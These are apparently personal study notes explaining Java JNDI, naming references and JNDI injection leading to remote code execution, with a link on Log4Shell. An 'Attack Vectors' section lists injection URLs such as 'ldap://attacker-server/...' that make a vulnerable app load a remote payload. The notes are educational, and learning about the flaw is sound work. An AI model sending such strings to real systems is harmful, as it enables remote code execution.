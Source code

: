 ```yaml
---
sort: 1
---
```


# JNDI injection & LDAP Entry Poisoning 

## Introduction
> JNDI is a NutShell

`Java Naming and Directory Interface`, is a common interface to interact with Naming and Directory Services/Providers.


### # What is Naming Service/Provider 
is a system that `Binds` a name to a given value/object.

It provides a facility to find an object based on a name that is known as `Lookup` or `Search` operation.

```note
EX : DNS Naming Service, that Binds the IP adddress to the host name 

EX : File System Naming Service, that binds the file name to the file itself   
```

### # What is Directory Service/Provider
is a service that allows `Storing` and `finding` special type of objects that is known as Directory Object -- A collection of attributes --

thereore it offers extended functionality to operate on the object attributes. 

```note
EX : LDAP Directory Service, that stores things like employee records with all the collection of attributes (name, email, location, ...)  
```

---------------------------------------------------
## JNDI Architecture    
JNDI offers a common interface to interact with different types of Services/Protocols .

<br>
<p align="center"> 
  <img src='./../assets/images/5.jpg'> 
</p>
<br>


As we see the API exposes the methods to Bind, to Lookup or search for names, to rename a binding or delete a binding and so on. 

And the Server Provider Interface (SPI) allows different services to be managed by JNDI. 

---------------------------------------------------
## JNDI In Action 

```note
RMI Registry is a Naming Service, that binds a name to a given java object 
```

```java 
// The initial context configured to work with RMI Regestry (Choosen Provider Here)
Hashtable env = new Hashtable();
env.put(INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(PROVIDER_URL, "rmi://localhost:1099");  // the Registry Running on localhost

// Initialize the context
Context ctx = new InitialContext(env);

// Bind string to name foo in the RMI Registry 
ctx.bind("foo", "Sample String");

// Look up the object 
Object local_obj = ctx.lookup("foo"); 
// Recover the objects using lookup operation, on the same JVM or diff JVM ???  
```
Other Services can be used by using different `PROVIDER_URL`
```java 
env.put(INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdabCtxFactory");
env.put(PROVIDER_URL, "ldab://localhost:389");
```


```note
JVM - Java Virtual Machine 
```

<br>
<br>


---------------------------------------------------
## JNDI Naming References

>If we want to bind java object to a Naming/Directory Service We can use the data serialization of the object - binding the binary representation to the given name
<br>
But if the object is too large or not serializable we can use some thing called Naming References 

<b>JNDI Naming References:</b>
* <b>Reference Addresses:</b> 
  <br> addr of the object 
  ```
  EX: rmi//server/refAddr
  ```
  So when we do the lookup operation we will receive the JNDI reference, the naming server will decode this reference and get the address, then we will use the addr to fetch the final object.

* <b>Remote Factory:</b>
  <br> location of a remote factory class to instantiate the object 
  * FactoryClassName 
  * CodeBase : Location of the factory class file
  
  <br>So when we do the lookup operation we will receive the JNDI reference, we track the factory location, fitch that remote class, then we instantiate that factory to generate our object.

<br>
<p align="center">
  <img src='./../assets/images/3.jpg'> 
</p>
<br>


In the SPI layer (Server layer) and for example in the RMI there is a JVM property that needs to be enabled in order to allow the remote class loading, which is by default disabled, and even if you enable this property then the security maneger have to specefy where these classes are loaded from, what kind of these classes can run and so on. 
<br><br>
For LDAP it's similar, but we only have the property without the security maneger enforcement, So once the developers have enabled this property, the code can load remote classes without any security management.
<br><br>
The Most intresting part is in the Naming Maneger Layer (the layer that decodes the JNDI references, the layer that will fetch the remote factory classes) which has no JVM property nor security management.

```note
When we initialize the JNDI context we configure it to work with a given provider type and url 

```

------------------------------------------------
## JNDI Injection 
It's an `Input Validation` vulnerability, where untrusted data added into JNDI lookup method, which could lead to a remote code execution.

### Attack Process 
1. Attacker binds payload in attacker Naming/Directory service.
2. Attacker Inject an absolute URL to a vulnerable JNDI lookup method.
   <br> ** The URL has a name that when looked up is going to pull the malicious object associated with this name into his own server, and run it. 
3. App performs the lookup.
4. App connects to the attacker controlled N/D service that returns payload.
5. App decodes the response and trigger the payload



```java
// Create Initial Context
Hashtable env = new Hashtable();
env.put(INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(PROVIDER_URL, "rmi://secure-server:1099");  // Secure
Context ctx = new InitialContext(env);

// Look up the object 
Object local_obj = ctx.lookup(<attacker-controlled>); 
```
If we perform a lookup operation, this operation should be resolved relatively to the `INITIAL_CONTEXT_FACTORY` and `PROVIDER_URL`,  However <b><span style="color:#d74338"> this is not ture </span></b>

The reason is that JNDI implements something called `Dynamic Protocol Switching`, So if the attacker is capable of providing an absolute URL, they will be able to overwrite the default `INITIAL_CONTEXT_FACTORY` ==> `Protocol` and `PROVIDER_URL`.
<br>
So the attacker will be able to point the lookup operation to their own server and then return the JNDI reference to trigger the remote code execution payload.
<br><br>
### Attack Vectors
Attacker can provide an absolute URL changing the protocol/provider
```http
rmi://attacker-server/Ref  
ldap://attacker-server/cn=Ref,dc=test,dc=org
iiop://attacker-server/Ref
```
There is three main vectors to gain RCE through JNDI Injection:
* RMI
  * JNDI References 
  * Remote Object [ later ]
* CORBA
  * IOR 
* LDAP 
  * Serialized Object 
  * JNDI References 
  * Remote Location [ later ] 















-------

My notes

-------


```note
LDAP and RMI are servers that receive a name and send back a java object   

https://www.fastly.com/blog/new-data-and-insights-into-log4shell-attacks-cve-2021-44228

```











